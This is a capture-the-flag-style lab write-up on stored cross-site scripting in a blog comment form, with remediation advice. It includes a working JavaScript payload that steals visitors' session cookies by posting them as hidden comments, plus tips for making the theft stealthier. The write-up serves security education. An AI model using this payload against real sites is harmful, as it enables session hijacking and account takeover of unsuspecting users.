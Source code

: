 # Lab: Exploiting Stored XSS to Steal Cookies

## 1. Title & Description

This lab demonstrates how a **stored cross-site scripting (XSS)** vulnerability in a blog comment feature can be exploited to steal a victim’s session cookie and impersonate them.

---

## 2. Vulnerability Overview

* User input in comments is stored and rendered **without sanitization**.
* This allows **arbitrary JavaScript injection**.
* A visiting victim executes attacker-controlled code in their browser.

---

## 3. Proof of Concept (PoC)
```html
<script>
    window.addEventListener("DOMContentLoaded",function () {
        var form = document.querySelector('.add-comment form');

        var data = new FormData(form);
        var sessioncookie = document.cookie.split('; ').find(c=>c.startsWith('session='));

        data.append('comment',"<span style='display:none'>"+sessioncookie+"</span>");
        data.append('name','victim');
        data.append('email','test@me.com');
        data.append('website','http://test');

        fetch(form.action,{
            method:"POST",
            mode:"no-cors",
            body:data,
            credentials:"include"
        })
    })
</script>
```
**Screenshot**

![Injected payload in the comment form.](Images/Payload.png)
![Network tab showing the forged POST request.](Images/NetworkTab.png)
![Blog post page showing the hidden comment containing the stolen session cookie.](Images/Comment.png)

---

## 4. Exploit Workflow

1. Attacker posts the payload as a comment.
2. Victim views the blog post.
3. Victim’s browser executes the attacker’s script.
4. Script exfiltrates the victim’s session cookie by posting it back as a hidden comment.
5. Attacker reads the victim’s cookie, imports it into their browser, and hijacks the session.

---

## 5. Stealth Considerations

* The PoC stores the cookie in a visible comment (loud).
* Stealthier options include:

  * Use `display:none` to hide the stolen data.
  * Exfiltrate via a benign-looking field (e.g., `website`).
  * Encode the cookie before sending (`btoa`).
  * In real attacks, exfiltrate data to an attacker-controlled server (blocked in this lab).

---

## 6. Impact

* Full account takeover via stolen session ID.
* CSRF protections are bypassed, as the CSRF token is accessible.
* Trust in the application is broken (stored XSS affects all future visitors).

---

## 7. Remediation

* **Contextual output encoding:** escape user input before rendering.
* **HttpOnly cookies:** prevent JavaScript access to sensitive cookies.
* **Content Security Policy (CSP):** restrict where scripts can execute.
* **Input validation & sanitization:** prevent injection of arbitrary scripts.

---

## 8. Reflection

This lab demonstrates how a seemingly simple XSS bug can escalate into full account takeover.
Adding `HttpOnly` to session cookies alone would have prevented cookie theft, but the root cause is **unsafe rendering of untrusted input**.
This highlights why secure coding practices and **defense-in-depth** are critical.
